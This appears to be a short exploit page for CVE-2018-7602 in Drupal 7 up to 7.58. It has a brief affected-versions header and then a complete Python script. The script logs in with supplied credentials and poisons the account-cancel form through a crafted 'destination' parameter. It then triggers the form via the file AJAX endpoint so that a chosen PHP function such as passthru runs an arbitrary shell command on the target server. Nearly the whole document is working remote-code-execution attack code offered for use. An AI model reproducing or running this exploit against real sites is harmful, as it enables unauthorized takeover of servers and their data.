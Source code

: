 影響版本
--------

DRUPAL 7 \<= 7.58

EXP
---

    #!/usr/bin/env python3

    import requests
    import argparse
    from bs4 import BeautifulSoup

    def get_args():
      parser = argparse.ArgumentParser( prog="drupa7-CVE-2018-7602.py",
                        formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=50),
                        epilog= '''
                        This script will exploit the (CVE-2018-7602) vulnerability in Drupal 7 <= 7.58
                        using an valid account and poisoning the cancel account form (user_cancel_confirm_form)
                        with the 'destination' variable and triggering it with the upload file via ajax (/file/ajax).
                        ''')

      parser.add_argument("user", help="Username")
      parser.add_argument("password", help="Password")
      parser.add_argument("target", help="URL of target Drupal site (ex: http://target.com/)")
      parser.add_argument("-c", "--command", default="id", help="Command to execute (default = id)")
      parser.add_argument("-f", "--function", default="passthru", help="Function to use as attack vector (default = passthru)")
      parser.add_argument("-x", "--proxy", default="", help="Configure a proxy in the format http://127.0.0.1:8080/ (default = none)")
      args = parser.parse_args()
      return args

    def pwn_target(target, username, password, function, command, proxy):
      requests.packages.urllib3.disable_warnings()
      session = requests.Session()
      proxyConf = {'http': proxy, 'https': proxy}
      try:
        print('[*] Creating a session using the provided credential...')
        get_params = {'q':'user/login'}
        post_params = {'form_id':'user_login', 'name': username, 'pass' : password, 'op':'Log in'}
        print('[*] Finding User ID...')
        session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
        get_params = {'q':'user'}
        r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        user_id = soup.find('meta', {'property': 'foaf:name'}).get('about')
        if ("?q=" in user_id):
          user_id = user_id.split("=")[1]
        if(user_id):
          print('[*] User ID found: ' + user_id)
        print('[*] Poisoning a form using \'destination\' and including it in cache.')
        get_params = {'q': user_id + '/cancel'}
        r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        form = soup.find('form', {'id': 'user-cancel-confirm-form'})
        form_token = form.find('input', {'name': 'form_token'}).get('value')
        get_params = {'q': user_id + '/cancel', 'destination' : user_id +'/cancel?q[%23post_render][]=' + function + '&q[%23type]=markup&q[%23markup]=' + command }
        post_params = {'form_id':'user_cancel_confirm_form','form_token': form_token, '_triggering_element_name':'form_id', 'op':'Cancel account'}
        r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        form = soup.find('form', {'id': 'user-cancel-confirm-form'})
        form_build_id = form.find('input', {'name': 'form_build_id'}).get('value')
        if form_build_id:
            print('[*] Poisoned form ID: ' + form_build_id)
            print('[*] Triggering exploit to execute: ' + command)
            get_params = {'q':'file/ajax/actions/cancel/#options/path/' + form_build_id}
            post_params = {'form_build_id':form_build_id}
            r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
            parsed_result = r.text.split('[{"command":"settings"')[0]
            print(parsed_result)
      except:
        print("ERROR: Something went wrong.")
        raise

    def main():
      print ()
      print ('===================================================================================')
      print ('|   DRUPAL 7 <= 7.58 REMOTE CODE EXECUTION (SA-CORE-2018-004 / CVE-2018-7602)     |')
      print ('|                                   by pimps                                      |')
      print ('===================================================================================\n')

      args = get_args() # get the cl args
      pwn_target(args.target.strip(),args.user.strip(),args.password.strip(), args.function.strip(), args.command.strip(), args.proxy.strip())


    if __name__ == '__main__':
      main()
